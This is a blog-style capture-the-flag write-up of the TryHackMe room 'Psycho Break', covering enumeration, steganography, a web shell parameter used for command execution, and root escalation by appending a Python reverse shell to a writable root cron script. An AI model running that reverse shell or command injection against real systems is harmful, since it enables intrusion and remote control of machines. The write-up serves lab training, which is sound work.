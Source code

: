 ```yaml
---
layout: post
title: Psychobreak
date: 2020-11-14 19:00:00 +0000
categories: [Tryhackme, Easy]
tags: [thm]
---
```



Psycho Break is a TryHackMe room which is based on the video game “The Evil Within”. The objective is to get the user flag and the root flag.

![cover image](/assets/img/tryhackme/psychobreak/1.png)

**Author** | Shafdo
**Description** | Help Sebastian and his team of investigators to withstand the dangers that come ahead

Deploy the VM and let’s go…

First up is enumeration

## Task 1

![nmap](/assets/img/tryhackme/psychobreak/3.png)
A simple nmap scan would give the answers to the first task. So I tried to login to the ftp service. Anonymous login is not enabled in ftp service. So let’s move on to http.


## Task 2

![http_service](/assets/img/tryhackme/psychobreak/4.png)
In the source page we can find the room name. Let’s go into the room.

![Sadist_room](/assets/img/tryhackme/psychobreak/5.png)
We can get the key to the locker room by clicking the given link. But wait… seconds after clicking the link the the background changes and a alert box asking for the key pops up.

![Sadist_room2](/assets/img/tryhackme/psychobreak/6.png)
After entering the key, we can see the locker room page. After looking at the link to the map, it seems we need to decode the piece of text to get the map.

![Locker_room](/assets/img/tryhackme/psychobreak/7.png)
At first I thought it was rot13 encoded but I was wrong. Go the link [vigenere-solver](https://www.guballa.de/vigenere-solver) and choose the correct variant given in the image to decode the text

![decode](/assets/img/tryhackme/psychobreak/8.png)
After decoding, enter the decoded text to get access to map. Let’s move on to the next room…

![Safe_haven](/assets/img/tryhackme/psychobreak/11.png)
In the source code of the page we can find a hint.

![Safe_haven_hint](/assets/img/tryhackme/psychobreak/12.png)
I had a hard time in this part. I tried enumerating using various methods but it took me more than a hour to finally find this.

<pre>gobuster dir -u http://<ip-address>/ -w /usr/share/dirb/wordlist/medium.txt -x php,txt,js,html -t 100</pre>

use gobuster with the medium wordlist to find the hidden directory.

![The_keeper](/assets/img/tryhackme/psychobreak/14.png)
<p>After clicking on the link we are redirected to another page.</p>

![Save_yourself](/assets/img/tryhackme/psychobreak/15.png)
A simple google image search would tell the answer right away. And we’ll get the keeper’s key. So let’s go to the final room given in the map.

![Abandoned_room](/assets/img/tryhackme/psychobreak/18.png)
After clicking on the link, it redirects to another page.

![Spiderlady](/assets/img/tryhackme/psychobreak/19.png)
After looking at the source page, I found a hint which told that the keyword *“shell”* would be useful. So, I tried appending it to the end of the url but there was no response. Finally, after setting it with value, it responds….

<pre>http://<ip-address>/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls ..</pre>

![dir_list](21.png)
I downloaded the two files after moving into the other directory that was returned in the response.

## Task 3

The text file is just a message so I extracted the zip file. Extract the contents of the image file using binwalk since it was corrupted.

<pre>binwalk -e image.jpg</pre>
After listening to the .wav file I found that it was morse code. So, I decrypted using [Morse Decoders](https://morsecode.world/international/decoder/audio-decoder-expert.html).

![sound_file_decryption](/assets/img/tryhackme/psychobreak/27.png)
Using the message that is decrypted  to extract the contents of the other image file with steghide.

<pre>steghide --extract -sf image_file.jpg</pre>
The text file gives the ftp credentials. Let’s login to ftp…

![FTP_creds](/assets/img/tryhackme/psychobreak/28.png)

## Task 4

I found two files in the ftp server and I downloaded using the get command.

<pre>get file-name</pre>
![program](/assets/img/tryhackme/psychobreak/30.png)

After running the program file I found that it takes a word as a argument. So, I ran the bash script.

<pre>
for i in $(cat list.dic);
do
./program $i;
done
</pre>

![program_decryption](/assets/img/tryhackme/psychobreak/31.png)
There is another bunch of numbers given to be decoded. This is multitap phone cipher. It can be cracked using [dcode]().


## Task 5

The decoded text is the SSH password. Without further wait, let’s login to ssh.

![ssh_login](/assets/img/tryhackme/psychobreak/34.png)
We found the user.txt in the home directory and some other hidden files

![ssh_hidden_dirs](/assets/img/tryhackme/psychobreak/35.png)
After reading the .readThis.txt file, it seems there is a file with the name the_eye_of_ruvik. So, I checked the /etc/crontab and I was right, there is a file named .the_eye_of_ruvik.py that runs as root for very 30 secs and whats more is we can edit the file.

<pre>
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
</pre>

So, I appended the python reverse shell in the file and opened a netcat listener in my local machine. After a few seconds I got the reverse shell.

![root_flag](/assets/img/tryhackme/psychobreak/39.png)
We also got the root flag.

## Bonus

![bonus_flag](/assets/img/tryhackme/psychobreak/40.png)

The bonus task is to delete the user ruvik

<pre>userdel -r ruvik</pre>
Run this as root

That’s it folks. Happy Hacking!!!
